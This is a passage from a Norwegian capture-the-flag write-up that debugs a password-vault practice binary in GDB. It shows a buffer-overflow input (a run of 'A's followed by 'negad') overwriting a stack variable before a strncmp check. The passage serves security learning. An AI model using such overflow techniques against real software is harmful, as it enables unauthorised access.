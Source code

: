 Vi ser at vi treffer `Breakpoint 2` igjen, men la oss nå se nærmere på `[rbp-0x10]`:

```bash
gef➤  x/s$rbp-0x10
0x7fffffffd880: "negad"
gef➤  x/5x$rbp-0x10
0x7fffffffd880: 0x6e    0x65    0x67    0x61    0x64
```

Vi ser at vi har oppnådd ønsket verdi i `[rbp-0x10]`. Vi kan nå sette et nytt `breakpoint`:

`0x0000555555555319 <+223>:   call   0x555555555040 <strncmp@plt>`

Denne gangen setter vi et breakpoint på `0x0000555555555319` som er `strncmp`-metoden:

```bash
gef➤  b *0x0000555555555319
Breakpoint 3 at 0x555555555319
```

La oss kjøre programmet igjen med samme payload:

```bash
gef➤  r
Starting program: /home/hag/ctfuiano/passordvelvet-1/passordvelvet
Du har 3 forsøk på å låse opp flagget! :)
Forsøk 0 av 3
Skriv passordet: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAnegad

Breakpoint 2, 0x0000555555555300 in main ()
```

Vi treffer forsatt det første breakpoint'et, men la oss kjøre videre ved å trykke `c`:

```bash
gef➤  c
Continuing.

Breakpoint 3, 0x0000555555555319 in main ()
```

Vi treffer det neste breakpoint'et:
